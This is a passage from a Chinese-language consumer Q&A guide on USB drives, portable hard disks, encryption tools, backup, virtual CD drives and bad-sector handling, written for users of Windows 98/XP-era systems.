答：数据的保密性确实极为重要。目前各家U盘生产商都推出了加密型的产品，但是在具体的实现方法上有很大不同。少数不具备加密型产品研发技术的厂商还以名词概念来混淆用户。和传统软盘一样，很多U盘也具有写保护功能，但是这无论如何也算不上加密，只是防止U盘内的数据被误删除，对于数据的保密性没有任何意义。部分善于钻空子的厂商还为U盘内置极为普通的加密软件，用户每次加密解密时都要频繁地调用，非常不方便。事实上，这根本算不上加密技术，因为即使购买没有这种功能的产品，用户也可以自行安装加密软件。真正的加密型产品，应该能在U盘丢失被盗时起到作用。目前最常见的加密方式分为两种：软件加密与数据加密。相对而言，软件加密使用起来更加方便，它只需用户为U盘设定一个初始密码，当U盘再次插入USB接口时会要求输入密码。不过这种方式也有一定的局限性，一旦用户的U盘被盗，意图不轨的人完全可以撬开U盘，将其内部的闪存芯片取出，通过专用工具读取数据。对此，只有数据加密才能起到作用。数据加密功能可以在用户向U盘存入文件时自动进行加密，在读取任何文件时都需要输入密码，而且这一加密是在闪存数据的内部实现，可以有效防止“暴力分子”。

#### 5. 启动型U盘如何制作启动文件

问：我的U盘支持启动功能，但是现在没有了厂商软件，该如何制作启动文件？能否复制Windows 98启动盘？

答：简单地将Windows 98启动软盘中的文件复制到移动硬盘，并不能实现启动功能。因为实现移动硬盘的启动功能，不仅仅要把启动所需要的文件拷到移动硬盘根目录下，更重要的是，要在移动硬盘上写入主引导记录，这是简单的复制操作所无法实现的。不过天无绝人之路，我们可以使用Ghost来DIY可启动的移动硬盘，这比使用一些特殊的格式化软件更为方便，只要找到一个已经具备启动功能的U盘作为复制对象即可。首先接上一款启动型U盘，打开Ghost软件并通过Local→Disk→To Image将其镜像文件保存到硬盘。换上另一款需要启动功能的普通移动硬盘，并再次进入Ghost，将原来保存的镜像文件写入到新移动硬盘即可（依次选择Local→Disk→From Image），Ghost会将引导区同时制作好。建议大家在Windows 9X下进行操作，Ghost能兼容MSDOS窗口，而且很容易识别出移动硬盘。

#### 6. 小心假冒的USB 2.0接口

问：我有一个USB 2.0接口的U盘，但是速度非常慢，和同事的USB 1.1 U盘几乎一样，这到底是为什么？

答：目前，只有为数不多的几个厂商推出了采用USB 2.0接口的U盘。不过，即便是采用了USB 2.0的控制芯片，如果Flash ROM芯片的速度表现不佳，也根本无法发挥USB 2.0的带宽优势。一般而言，普通USB 1.1接口的U盘读写速度都在1.2MB/s左右，而USB 2.0接口的产品在横向对比时会产生较大差距。少数优秀的产品能够达到10MB/s以上的读写速度，部分早期的USB 2.0优盘只能维持在5MB/s左右。此外，部分所谓的USB 2.0仅仅是Full Speed标准，和USB 1.1没有区别，自然无法展现速度优势。

#### 7. 谨防Flash ROM瑕疵

问：我的U盘在存储大容量文件时，经常在复制到最后的关键时刻报错。我已经用厂商的软件执行了格式化操作，但是问题依旧，这是什么原因？

答：U盘也有优劣之分。部分廉价的劣质产品使用次品Flash ROM闪存芯片，容易造成存储数据丢失。这种问题在购买时很难发现，这里教大家一个检验的小窍门，相当管用。在光盘或者其它移动存储设备上保存一个体积略小于U盘容量的ZIP文件，将其复制到U盘，进行解压缩。如果闪存芯片存在瑕疵，WinZIP很可能会提示CRC错误。少数劣质产品或许能够通过一次测试，但是多试几次就会原形毕露。对于存在Flash ROM闪存芯片瑕疵的产品，完全可以找厂商要求保修。

#### 8. 移动存储成本分析

问：我对移动存储备份的容量有很高要求，平时用到的视频文件与高品质图片都是存储空间杀手，因此目前流行的U盘都不太适用。我在移动硬盘、DVD刻录机、CD刻录机之间应该如何选择呢？

答：在以移动存储为目的时，可以用移动硬盘来解决问题，但在作为备份使用时就只能考虑刻录机了。从安全性的角度来看，移动硬盘存储与刻录盘存储可谓各有千秋。移动硬盘中的数据容易丢失，一旦产生物理坏道就会造成难以挽回的损失，因此也不能说是百分百安全。不过刻录盘也有其不足之处，一方面体积小巧的刻录盘容易遗失，另一方面使用劣质光盘会导致数据难以读取。既然大容量移动硬盘与刻录盘在安全性方面打成平手，我们就应该关心两者在价格上的对比。以40~120GB的存储空间为例，分别计算两者消耗的成本，其中700MB的CDR刻录盘以1元/张来计算，4500MB DVD刻录盘以2.5元/张来计算，硬盘取7200RPM IDE产品的平均价位。

|            | 80GB | 120GB | 200GB |
|------------|------|-------|-------|
| 大容量硬盘 | 450元 | 620元 | 800元 |
| DVD刻录盘  | 45元  | 68元  | 114元 |
| CDR刻录盘  | 117元 | 175元 | 292元 |

毫无疑问，在价格方面，刻录盘特别是DVD刻录盘具有明显的优势。对于那些需要保存大量数据的用户，强烈推荐选购一台刻录机以缓解硬盘的负担。

#### 9. 网络硬盘究竟能否作为移动存储工具

问：很多朋友都推荐使用网络硬盘作为移动存储工具，请问这种技术是不是稳妥？

答：在电脑普及之初，相互间文件交换的方式主要依赖于软盘等移动存储介质；后来，公司内部员工可以利用局域网的宽带文件交换，使文件共享变得便捷而实用，局域网成为与移动存储介质相互补充的文件交换方式；在虚拟的在线驱动器概念中，虚拟可能被看作“速度慢”和“空间小”的代名词，因为其性能在很大程度上依赖于用户的互联网接入速度。另外，在线驱动器在存储容量上也无法与普通硬盘相比。现在，存储的概念发生了很大变化，网络硬盘已逐步占据了存储的主导地位。日常生活和办公环境中，我们经常需要通过网络存放文件或者共享数据，FTP、Email邮件、MSN/QQ等都能实现文件传送，但是各有优缺点。其中，FTP功能最为强大，但使用起来却相当复杂，而且成本高昂；“Email”的传送比较方便，但是附带文件数最多几兆，免费资源也越来越少；MSN与QQ等能实时传送文件，但需要双方同时在线，而且无法实现便捷的网络移动存储。网络硬盘则综合了它们的优点，是一种功能强大、操作便捷、容量巨大、安全操作的存储工具，很值得推荐。

#### 10. 网络硬盘发展现状

问：现在免费的网络硬盘一般有多大容量？能否介绍一些？

答：目前，Gmail以及QQ网络硬盘是不错的选择。QQ网络硬盘面向所有的QQ用户，其中QQ普通用户能获得16MB存储空间，QQ行用户能获得32MB存储空间，QQ会员更可以享受128MB超大存储空间。除此以外，新浪UC也是很不错的免费选择。UC对于用户采取“激励机制”，令在线时间和网络硬盘空间完美结合。只要注册成为UC用户，就可以免费获得32MB的网络硬盘，如果在线时长超过100小时，网络硬盘立即可以扩容到64MB；如果在线时间超过500小时，网络硬盘更可以扩充到128MB的大空间。

#### 11. 为移动硬盘文件夹加密

问：我的移动硬盘没有加密功能，但是听说安装一些软件就可以对某个文件夹加密，请问是否如此？如果可行的话，应该如何操作？

答：这完全是可行的，我们推荐《高强度文件夹加密大师》这款针对文件夹的加密软件。与其它普通加密软件不同的是，《高强度文件夹加密大师》还支持移动加密功能，也就是说移动硬盘放在任何机器上使用都不会令加密设置失效。《高强度文件夹加密大师》的操作十分简单，在资源管理器中右键单击需要加密的文件夹，然后选择“高强度加密”，此时软件会要求输入密码。密码设置完成后整个文件夹的内容将被替换，无论将移动硬盘插在哪台机器上，都看不到原有的文件信息。执行加密文件夹中的“解密加密”之后，系统会要求输入解密密码，而且支持“完全解密”与“临时解密”两种方案，前者在解密后将保留文件，而后者会在用户更改文件夹路径之后立即删除解密文件。由于《高强度文件夹加密大师》无需从后台控制软件，也就避免了被任务管理器强制关闭的麻烦，而且在未安装该软件的其它机器上也不会影响解密操作，堪称是打造加密型移动硬盘的最佳选择。

### ## 12. Windows Server 2003与移动存储

问：我的系统刚刚升级到Windows Server 2003，为什么连接移动硬盘后在“我的电脑”中看不到设备，有时候安装U盘也会这样。

答：很多用户都反映移动硬盘无法被Windows Server 2003操作系统识别，这是因系统出于安全性考虑而没有分配盘符。此时查看移动硬盘指示灯，你会发现是亮着的，而且任务栏右下方也会出现移动设备的图标。解决方法十分简单，依次打开“开始”→“管理工具”→“计算机管理”，在窗口左侧选择磁盘管理，右侧会出现容量相同“状态良好（活动）”的移动硬盘。在新发现“状态良好（活动）”的设备图标上点击右键，选择“更改驱动器号和路径”，在弹出窗口中点击“添加”，从组合下拉菜单中选择目的盘符，系统将自动添加移动存储设备。

### ## 13. 自己DIY移动硬盘

问：我有一个退役的20GB笔记本硬盘，是不是只要购买一个硬盘盒就能当成移动硬盘使用？能否告知详细的操作过程？另外，市场上哪些产品比较好？

答：移动硬盘的本质并不复杂，仅仅是体积较小且具备一定抗震能力的笔记本硬盘，加上搭配USB控制芯片与电源驱动的移动硬盘盒。如果手头已经有笔记本硬盘，只需要购买一个普通的USB 2.0移动硬盘盒即可，整体成本将大幅度降低。移动硬盘盒分为3.5英寸与2.5英寸两种，前者适合于普通的台式机IDE硬盘，价格较为便宜，但是体积过大便携性不是很好，而且需要使用外置电源，一般不推荐使用。2.5英寸的移动硬盘盒只能用于安放2.5英寸笔记本硬盘，便携性相当出色。需要注意的是，2.5英寸硬盘分为薄盘与厚盘，大家在选择时一定与自己的硬盘配套，少数追求便携性的移动硬盘盒无法兼容2.5英寸厚盘。防震安全措施也是对硬盘盒的基本要求之一。硬盘的稳定性是配件中较差的，即便在关闭状态下，剧烈的振荡也会对其形成致命打击，造成物理坏道。因此，移动硬盘盒必须具有坚固的外壳与缓冲装置，才能确保硬盘的安全。客观而言，镀锌钢板应该是最好的材料，但这也会加重份量且不太美观。此外，铝镁合金、高强度有机塑料也可以成为硬盘盒的外壳材料。相对而言，有机塑料的耐磨性较差，时间一长会非常难看；铝镁合金的硬盘盒应该是最合适的，它不仅份量轻，而且表面不易划伤，唯一的缺点就是价格昂贵。

### ## 14. 移动硬盘与USB 2.0兼容性问题

问：我的移动硬盘是USB 2.0接口的新产品，为什么在电脑上一直无法正确安装驱动？操作系统是XP，系统反复提示错误的未知设备。

答：对于USB 1.1接口的低速移动硬盘而言，一般不会遇到USB兼容性问题，然而USB 2.0规范的产品却不得不为速度付出代价。nVIDIA的南桥芯片与VIA控制芯片存在不同程度的兼容性问题，使用USB 2.0移动硬盘时会表现得十分明显。虽然Windows XP SP2中已经自带了USB 2.0的驱动，但在实际使用中还是存在着一定的兼容性问题。严格来说这并不是nVIDIA主板的问题，因为nVIDIA南桥芯片的USB 2.0标准是按照标准设计，对USB设备的信号要求也十分严格。现在市面上大部分移动硬盘的USB控制芯片，并不是完全按国际标准设计，信号需要有强有弱，从而造成一系列的问题。解决这个问题首先要安装集成SP2补丁的Windows XP，然后安装主板厂商专用的USB 2.0驱动。由于Windows已经安装了USB 2.0驱动，这里需要在控制面板中更新驱动，自己指定驱动程序的位置，选定后会提示该驱动没有通过微软认证，不过这并不影响使用，最后不要忘记在设备属性中把“快速删除优化”改为“为优化性能优化”。

VIA的USB 2.0驱动问题主要表现在Windows 98操作系统下，而且仅仅是VIA VT6202这款板载USB 2.0控制芯片存在问题，其它最新的VIA南桥都没有很严重的兼容性故障。好在VIA已经推出了解决方案，大家只要安装好最新版本的Hyperion 4in1驱动，再打上最新版的USB 2.0过滤器补丁程序即可，该补丁可以到http://downloads.viaarena.com/drivers/USB/VIA_USB2_V258p3-L-M.zip下载。

### ## 15. 解决移动硬盘供电问题

问：我的移动硬盘经常在使用过程中突然无法被识别，有时候也会出现间歇性中断现象，这是为什么？

答：如果发现移动硬盘在拷贝大容量数据时，出现间歇性中断甚至无法识别的情况，那么很有必要检查一下是否由USB供电不足而引起，USB接口原本是仅仅用于低功耗设备。如果移动硬盘具备PS/2或者双USB接口，应该尽量将其连接上，可以很大程度起到辅助供电的作用。另外需要注意的是，移动硬盘尽量不要使用USB延长线，或是连接到机箱上的前置USB接口，此时供电会有衰减，造成设备工作不稳定。事实上，很多主板还可以通过跳线来改变USB接口的供电方法，这样可以获得更加稳定的电源，具体要参考主板说明书，并非每款主板都具备该功能。如果以上方法都无法解决供电问题，那就只好采用带有变压器的有源USB Hub了。

### ## 16. 加密移动硬盘的简易方法

问：现在具备加密功能的移动硬盘往往价格不菲，我想知道有没有办法自己在普通的移动硬盘上实现加密功能？

答：部分不具备加密型产品研发技术的厂商以技术名词概念来混淆用户。所谓的加密型移动硬盘仅仅采用软件进行加密，只是一道简单的入门口令，面对高级用户时根本无法起到保护作用，而且只要打开硬盘盒取出硬盘就彻底加密失败。事实上，通过其它软件也完全能够实现加密功能，基本上与那些软件加密技术的移动硬盘没有很大的区别。我们推荐一款特殊的U盘格式化软件Mformat（可以到 http://www.jangotech.com/download/ufd.zip）下载，它能轻松实现加密功能。安装包解压后得到“Mformat.exe”和“Passid.exe”两个文件。首先运行 Mformat.exe 程序，在弹出界面中钩选“启动密码保护功能”，然后进行格式化操作。当格式化操作完成之后，系统会自动告诉你初始密码为“1111”。当我们再次使用 U 盘时，你会发现任何读写操作都会遭到拒绝，因为整个存储区域已经被 Passid 程序控制，而且 U 盘中生成了 Passid.exe 文件。在使用 U 盘之前，任何用户都必须先执行 Passid.exe 程序，然后在弹出对话框中输入正确的密码。在右下角的系统托盘中，我们还能看到一个后台控制程序。一旦在解密状态下希望给移动硬盘重新加密，用鼠标右键单击系统托盘上的 PASSID 图标，在弹出快捷菜单中点击“磁盘上锁”命令。Mformat 生成的初始密码都是“1111”，一定要尽快在后台控制程序中更改。

#### 17. 移动硬盘盒质量不可大意

问：我有一个闲置的 40GB 笔记本硬盘，准备购买一个移动硬盘盒。但是，现在市面上的移动硬盘盒价格差距很大，便宜的几十元，贵的则要上百。请问，那些很便宜的移动硬盘盒到底能不能使用？

答：常见的移动硬盘外壳用料一般有塑料、铝以及铝镁合金三种，这些材质的区别不光表现在移动硬盘的重量和手感方面，更为重要的是抗震性能也大为不同。高端正品移动硬盘盒的外壳多采用铝材料，譬如明基和爱国者的多款产品都不惜工本地使用铝镁合金外壳，并且还提供保护套；而价格低廉的杂牌产品采用普通塑料材质，抗震效果较差。抗震效果的优劣还不仅仅体现在硬盘盒上，内部的垫脚以及缓冲装置设计都十分重要，品牌移动硬盘在这一点上有明显的优势。硬盘的发热量都不小，特别是在长时间连续工作的情况下。由于塑料硬盘盒的导热性能较差，硬盘产生的热量无法有效驱散而淤积在硬盘盒之内。随着温度的不断上升，严重时会使硬盘停滞、坏道扩散、数据丢失，甚至是死机。品牌移动硬盘不仅外壳材质更加利于散热，而且一般都合理地设计散热孔，能够令硬盘更加“凉快”，对延长使用寿命大有裨益。

### 三、数据存储与备份应用

#### 1. 加密光盘刻录解决方案

问：我现在基本使用刻录机作为移动存储，但是刻录后的内容还是有着保密问题，尤其是一些私人珍藏或者商业机密的文件。为了防患于未然，最好的方法便是利用软件技术进行加密，制作成加密刻录盘。但是，我只会使用 WinRAR 制作加密压缩包，请问能不能制作加密的光盘？

答：加密光盘的刻录不像硬盘数据加密那样简单，而且可供我们选择的软件也不多，常见的 Nero、EasyCD Creator 以及 WinOnCD 都没有提供这一功能。作为加密软件而言，最值得关注的便是其加密技术。如果加密原理非常简单，那无疑起不到作用。经过一番试用比较，我们向大家推荐 SecureBurn，可以到 http://www.secureburn.com/ 下载其最新版本。采用 SecureBurn 刻录的加密光盘，在读取时会要求使用者安装 SecureBurn 并输入相应的密码，如果密码不对，光盘内的数据无论如何也不能被读取，只会看到一堆乱码。我们还可以让 SecureBurn 直接将自身复制到光盘中，这样其它用户就无需到处寻找这款软件了。SecureBurn 的界面非常直观，采取类似 Nero 的拖曳式操作。我们可以从左边的文件浏览器中，将需要加密的文件以及文件夹拖曳到右边的窗口中。注意，右上方的“secureBurn CD”与“Write secureCD to CD”一定要选中，不然制作出来的光盘将没有加密功能。回到主界面，按下“Record”按钮，SecureBurn 会要求我们输入密码。建议大家将密码设定得长一些，尽量使用一些诸如“¥、@、%、一、&”之类的特殊字符。此外，尽量不要使用自己的身份证号码或者生日来作为密码，这很容易让别人猜出。为了安全，SecureBurn 会要求再次输入密码。这个密码是一定不要忘记，否则你自己也无法读取这张光盘。经过几个简单的步骤，SecureBurn 就开始刻录光盘了。在使用由 SecureBurn 制作的加密盘时，我们必须执行光盘根目录下的 Unlock 命令。如果你的光驱打开了自动运行功能，Unlock 会自动执行，因为 SecureBurn 已经写好了 Autorun 文件，非常体贴。在任何一台机器上，只要是第一次运行该光盘，它都会要求安装 SecureCD。重新启动之后，我们再次读取光盘时就会看到要求输入密码的窗口。如果密码正确无误，SecureCD 会马上退出 CD 光盘。这并非输入的密码有误，而是 SecureCD 一项非常不错的设计。大约 1 秒钟后，光盘又会自动插入，此时可以在 Windows 资源管理器中看到被加密的内容了。不过略微有些遗憾的是，SecureBurn 的功能相对较为简单，其制作的加密光盘只能是 DataCD，而不可以是 AudioCD、PhotoCD 或者 VCD。SecureBurn 的人性化设计也较为欠缺，无法将一张光盘分为加密区与非加密区。客观而言，SecureBurn 的本职工作做得相当出色，只是在附加功能上欠缺了一些。

#### 2. 如何彻底删除文件

问：我们公司有些重要的机密文件需要删除，我知道仅仅简单格式化硬盘没用，请问如何操作才比较安全？请介绍一些软件方法，谢谢。

答：如果仅仅需要删除某几个文件，WinHex 是很得力的助手。进入 WinHex 主界面后，在“文件管理器”菜单选择“不可逆地删除”，随后弹出的对话框允许选择需要删除的文件。这里的删除并非简单地修改文件可覆盖标志，而是用 16 进制数字来填充，甚至允许设定填充次数。经过 WinHex 删除的文件一般都非常保险，至少民间所使用的数据恢复技术已经无力挽救。如果要大面积删除文件夹，被称为数据毁灭王的 SafeEarse 是不错的选择。SafeEarse 使用非常简单，点击“Properties”按钮可以调节删除安全级别，可以根据自身需求来选择相应的安全度，软件就会按照此级别来销毁数据。需要注意的是，设置的安全级别越高，数据删除的时间也就越长。安全删除 1MB 左右的数据根据，使用最安全模式需要15秒左右，而使用最低模式则只需3秒，当然这个速度和系统的磁盘速度有关。此外，诸如Absolute Security、Norton Incinerator等软件也都是很不错的解决方案。

#### 3. 用目录来管理数据

问：我的日常工作主要是管理一些公司文档，但是每次总是弄得比较混乱。请问有什么管理软件可以协助操作吗？或者有什么系统的方法？

答：商业用户需要处理的数据量并不大，因此剩余空间并非最主要的问题，而是妥善合理的安排。如果数据存储结构不合理，一定会造成混乱，而且新老版本之间容易混淆。更为重要的是，商业用户的办公地点不固定，很可能是公司电脑、笔记本、家中电脑的三位一体，如何统一协调十分关键。尽管目前有各种软件可以帮助用户管理文件，但是没有一款能够完全满足需求。事实上，简单地使用目录就能达到很好的管理效果。假如每天需要处理的资料很多，建议首先按照月份来建立目录。大家可以在每个月一号新建一个目录，如在1月1日新建“1月资料”这一目录，然后当月的所有资料都存放于该目录。一旦需要查找以前的资料，只要记得建立时间即可快速定位，不至于在整个浩大的硬盘中盲目寻找。对于通常接触的客户、领导等等，大家还可以在以月份命名的目录中新建子目录，如针对领导的报告可以保存于“报告”这一子目录。当然，具体的目录使用还要因人而异，我们只是抛砖引玉。此外，重要的数据应该不要存放于C盘，这样可以避免一些黑客程序与病毒的攻击，相对安全一些。

#### 4. 如何解决移动存储中的数据管理难题

问：我经常在公司电脑、笔记本、家中电脑中来回切换使用，经常会遇到数据迁移的问题。有时一个文档编辑到一半，回家时必须将该文档带着才能继续工作。U盘在价格、稳定性、速度方面都有非常不错的表现，但是每次复制数据实在很不方便，请问有什么更好的方法吗？

答：为了避免数据迁移时版本的冲突，甚至不慎用旧版本覆盖新版本，推荐大家安装JFileSyn这款软件。移动存储工具日益普遍，使用中往往会遇到需要文件夹同步的情况，JFileSyn软件是一款简单易用的文件夹同步工具，可以成为广大移动硬盘用户的好帮手。启动JFileSyn程序，分别设定好源文件夹与目标文件夹，将“目标文件最后修改时间”指定为“小于源文件”。这样一来，只要文件有操作就会被更新到目标路径。当然，使用这一功能的前提是主机的计算机时钟必须足够准确，否则会造成同步操作失败。利用JFileSyn的同步功能，大家可以针对本地硬盘以及移动硬盘中的关键文件夹进行同步。以QQ聊天记录为例，只要设置QQ安装目录下的QQ号文件夹作为源文件夹与目标文件夹即可，每次拔下与插上移动硬盘前后，执行一遍JFileSyn的同步功能，即可保持QQ聊天记录不会因为在多个地方保存而有任何遗漏。同样，这项功能也可以用来同步Foxmail中的邮件，只不过此时分别指定以帐户为命名的文件夹。

#### 5. Ghost镜像的修改

问：用Ghost制作硬盘的备份文件之后，有时我仅仅需要修改一点点内容，但是重新制作镜像太麻烦。记得以前有文章介绍过一种可以修改Ghost备份文件的软件，具体使用方法能否介绍一下？

答：你所说的应该是GhostExplorer，它可以称得上是Ghost的孪生兄弟。在GhostExplorer的帮助下，Ghost的备份文件将变得更加灵活。Ghost最大的缺陷就是备份机械化，一旦需要备份的分区有了任何变化就难以更新。为此，GhostExplorer对Ghost进行了弥补。使用GhostExplorer打开Ghost制作的.GHO镜像，你可以方便地对其添加或删除文件。GhostExplorer安装后会自动与.GHO镜像文件关联，只需在资源管理器中双击.GHO镜像文件即可。在GhostExplorer主界面右边的窗口中，可以方便地删除任何文件。如果需要添加文件，单击工具栏上添加按钮即可。GhostExplorer也支持从Windows资源管理器中拖曳操作。

#### 6. 如何识别水货硬盘

问：我准备买一个专用的大容量硬盘备份数据，但是现在走私货（水货）硬盘太猖獗了，购买时应该如何鉴别？

答：水货硬盘的确相当危险。众所周知，硬盘是所有电脑配件中稳定性较低的，它很容易出现坏道，甚至报废，因此产品的售后服务极为关键。尽管水货在价格上略占优势，但是权衡利弊，还是有些不值得。如果用行货的价格买了水货产品，那就更加得不偿失了。水货硬盘一般没有正规的包装盒，即便有包装盒，其上也是没有任何保修标签的。此外，如果硬盘标识上有任何“OEM”字样，这种硬盘肯定将无法得到正规保修，有部分硬盘堂而皇之地将OEM产品拿到零售市场销售！

希捷硬盘水货和行货最方便的鉴别方式，是通过800-810-9668免费电话来查询。只要提供硬盘标签上的Model与S/N码，就能很快得知是否授权代理商的行货。迈拓硬盘可以拨打800-6500-286进行查询，西部数据和日立硬盘并没有电话验证服务，只能通过代理商设置的800免费电话，或者登陆硬盘厂商的官方网站进行查询。其实后者更为方便，大家可以通过以下网址来查找四大品牌的信息。

- 希捷 http://support.seagate.com/customer/warranty_validation_cn.jsp
- 迈拓 https://www.maxtor.com/en/support/service/rma/create/01_serial_number.cfm
- 西部数据 http://websupport.wdc.com/websupport/clearexp_scripts/rma_login.asp?lang=cn
- 日立 http://www.hitachigst.com/hdd/support/ibmredirect.html

#### 7. 如何使用虚拟光驱

问：我有很多光盘版的游戏，但是每次运行都要放入光盘，相当不便，而且有些是向朋友借来的。请问有什么方法可以将光盘复制到硬盘，从而在游戏时不用插入光盘？我的硬盘很大，还有很多空间闲置着。

答：少数游戏采用完全安装之后通过免CD补丁来解决你的问题，不过并非每一款游戏都能找到免CD补丁。对此，你可以尝试一下虚拟光驱。虚拟光盘其实就是把光盘上的文件，以一定格式存放在硬盘上的特殊文件。通过虚拟光驱软件可以把“虚拟光盘”读入“虚拟光驱”，然后就可以在“虚拟光驱”上安装、复制光盘上的文件，与真实的光驱毫无区别。

以Virtual Drive为例，安装结束后按要求重新启动电脑。然后双击我的电脑，如果一切正常，你会看到在其中增加了一个光驱图标，这个光驱图标就是Virtual Drive在系统中虚拟的光驱，系统会认为这是一个真正的光驱。Virtual Drive通过一个名为Virtual Drive Manager的子程序来完成虚拟光驱的各项操作。建立虚拟光盘时，在Virtual Drive Manager中单击“Build VCD”（创建虚拟光盘）按钮，并且设定存放路径、压缩率等等。参数设定完毕后，点击确认便开始创建虚拟光盘，Virtual Drive Manager会显示出当前的工作进度和状态报告。由于是对整张光盘作映像读取，根据源光盘容量和光驱、计算机速度差别，建立虚拟光盘可能花费10到20分钟时间不等。当我们需要使用虚拟光盘时，在程序主界面的右边列表框中单击选择需要被虚拟的光盘文件，选择工具栏上的“Insert”按钮，该虚拟光盘就插入到Virtual Drive创建的默认虚拟光驱中。回到我的电脑，接下来可像平常使用物理光驱一样操作。值得注意的是，使用虚拟光盘对付光盘版游戏时，应该先虚拟后安装，而不要先安装后虚拟，以免程序因为光盘盘符的改变而不能识别虚拟光盘。

#### 8. 虚拟光驱盘符交错的解决方法

问：我用虚拟光驱玩《极品飞车》，盘符为“H”，然后我又用虚拟光驱制作了《FIFA2006》的光盘镜像文件，但在运行《FIFA2006》时却出了问题。软件总是提示：“光盘没有插入光驱”。经过查看，我发现多出的光驱“H”实际上是物理光驱，而光驱“G”则是虚拟光驱了。请问这个问题如何解决呢？

答：最简单的方法是在虚拟光驱所在的盘符中重新安装一遍游戏。如果不行的话，就得互换盘符了：打开“我的电脑→控制面板→系统”，单击CD-ROM，出现物理光驱和虚拟光驱两项。选中物理光驱那项，单击“属性”，在“设置”一栏中将“启动驱动器号”和“末端驱动器号”都改为“G”；再选中虚拟光驱，将“启动驱动器号”和“末端驱动器号”都改为“H”。重新启动计算机后，虚拟光驱盘符就互换成功了。

#### 9. 光盘镜像格式的转换

问：网上下载的光盘镜像不支持我使用的虚拟光驱，有什么软件能够转换格式吗？还是根本就格式不对？一定要帮我啊，BT下载到一半好不容易才有人续种，希望来之不易的下载文件还能使用。

答：我们推荐你使用WinISO来转换镜像格式。WinISO可以将CIF、FCD、VCD、IMG、NRG、BWT等六种格式转换为ISO，而ISO格式几乎得到所有虚拟光驱软件的支持，甚至可以在刻录软件中直接制作成光盘，具有很好的通用性。选择Convert菜单下的“Other Format Convert”，确定需要转换的文件路径，并设置好转换后ISO文件保存位置，WinISO就开始快速执行工作，整个过程十分简单。

但是WinISO也并非万能，对于CCD、C2D等格式无法转换。此时可以使用ISOBuster这款绿色免费软件，它除了读取常见的ISO、BIN镜像文件之外，还支持IMG/CCD（CloneCD制作）、NRG（Nero制作）、C2D（WinOnCD制作）、GCD（Prassi制作），称得上是镜像文件转换专家。ISOBuster非常简单，双击它的运行程序之后，通过“File→Open Image File”命令载入相应的镜像文件，它就会将这个镜像文件中的内容展现出来。虽然ISOBuster无法直接转换其它镜像格式，但是可以选中镜像中的所有文件，单击右键并选择“Extract Objects”。指定保存路径后，所有文件都会转移到硬盘上，接着就可以方便地使用WinISO将其再次制作成ISO镜像。虽说这种做法等于绕了一个大圈子，但是这样彻底解决了所有镜像格式的转换，因为ISOBuster的支持范围非常广，几乎涵盖了所有镜像文件格式。

#### 10. MDF虚拟镜像的使用方法

问：我是一个菜鸟，从网上下载了游戏《极品飞车地下狂飙》，文件夹里有CD1、CD2和免CD补丁等子文件夹，其中CD1文件夹下有两个文件，分别是NFSUDISK1.mdf（795MB）、NFSUDISK1.mds（486字节），CD2文件夹下的状况类似。请问.mdf是什么文件格式？我的电脑上装有虚拟光驱Virtual Drive 7.0（东石公司），应该如何安装上游戏？

答：.mdf也是一种虚拟光盘的形式，但是东石公司的虚拟光驱Virtual Drive 7.0并不能支持，建议你使用Alcohol 120%（http://www.skycn.com/soft/9864.html下载），它可以兼容几乎所有光盘镜像格式，其中包括mdf。Alcohol 120%安装之后也会使系统多出一个盘符。打开其主界面，利用搜索功能找到下载后的.mdf文件。双击之后，你会发现虚拟光盘镜像已经被读入到虚拟光驱的盘符。从功能来看，Alcohol 120%远比虚拟光驱Virtual Drive 7.0强大，你甚至可以抛弃原来的这款老牌虚拟光驱软件。

#### 11. 镜像光盘的建立

问：现在很多网上下载的BT文件都是直接光盘镜像，非常方便。如果我手头有光盘版游戏，能否自己制作镜像文件，然后在虚拟光驱7.0个人版中使用？

答：事实上，很多虚拟光驱软件都自带了压制工具，虚拟光驱7.0个人版通过“虚拟光驱总管”这一子程序来实现。在开始菜单调用“虚拟光驱总管”后，选择工具栏中的“压制”，会弹出一个新界面。将需要制作镜像文件的光盘放入物理光驱，并选择正确的盘符，此时“虚拟光驱总管”便能识别。单击“下一步”，选择镜像文件的保存路径。“虚拟光驱总管”会询问相关的镜像文件制作参数，其中“智慧型算法”用于破解加密保护的光盘。不过这项功能的解密能力并不是很强，一般情况下使用“普通算法”即可。至于“压缩算法”，主要用于减小镜像文件的体积，以节省磁盘空间。当然，采用“压缩算法”可能会影响虚拟光驱的速度。完成所有设置后，“虚拟光驱总管”就开始压制虚拟光盘镜像文件，其速度视物理光盘盘片质量、光驱速度、硬盘速度、压缩比例而定，大约需要

### 四、数据修复应用

#### 1. 如何区分逻辑坏道与物理坏道

问：我知道硬盘的坏道可以分为逻辑坏道与物理坏道，产生逻辑坏道时一般不会严重影响使用，具体应该如何区分？物理坏道又是如何形成的？通过低级格式化是否可以解决？

答：逻辑坏道通常是由于对软件的使用或操作不当造成的，使用 DOS 或者 Windows 下的 Scandisk 命令即可解决问题。但是如果使用 Scandisk，甚至重新分区格式化之后仍不能正常工作，那么很可能就是物理坏道在作怪了。硬盘出现物理坏道的原因有很多，除自身存在质量问题外，还有断电、碰撞所造成的损害。对于物理坏道，大家一定要及时处理，因为坏道是会扩散的。建议大家不要用“低格”程序来处理坏道，这没有丝毫作用。如果盲目地使用低格程序，会适得其反。低格把原有的分区全部删除，而坏道还是存在，再次分区就可能把原来的坏道分在两个或几个区。虽然一时可能看不出，系统也暂时检查不出，但坏道是会扩大的，像传染病那样蔓延。

#### 2. 如何屏蔽物理坏道

问：我的硬盘用 MHDD 检测出来有物理坏道，但是数量并不多。查了一些资料，物理坏道正确的处理方法，应该是使用专用的硬盘工具将坏道分离出来并屏蔽它，保证磁头不对坏道进行读写操作。但是，朋友推荐的 PCtools 以及 Norton 软件都无法处理 NTFS 和 FAT32 分区，还有什么别的方法吗？

答：推荐大家使用 Partition Magic For DOS，可以到 powerquest.com 下载。这款软件必须在 DOS 下进行操作，我们要用软盘或者光盘引导系统，并尽量保证不在内存中加载任何程序。在 DOS 环境下，进入 Partition Magic，选择 Operations 菜单下的 Check For Errors 命令来确定物理坏道的位置。如果硬盘真的存在坏道，整个检测过程将相当缓慢。只要硬盘灯不灭，就千万不要重新启动，因为此时并非死机。当检测到坏道之后，Partition Magic 会用不同的颜色进行标记，非常明显。由于硬盘坏道的检测具有一定偶然性，少数物理坏道周围的磁道还未病入膏肓，Partition Magic 有时会有误诊，甚至还会将逻辑坏道误认为是物理坏道。从另一个方面来看，物理坏道周围也是最有可能出现坏道的地方，Partition Magic 又可能遗漏。

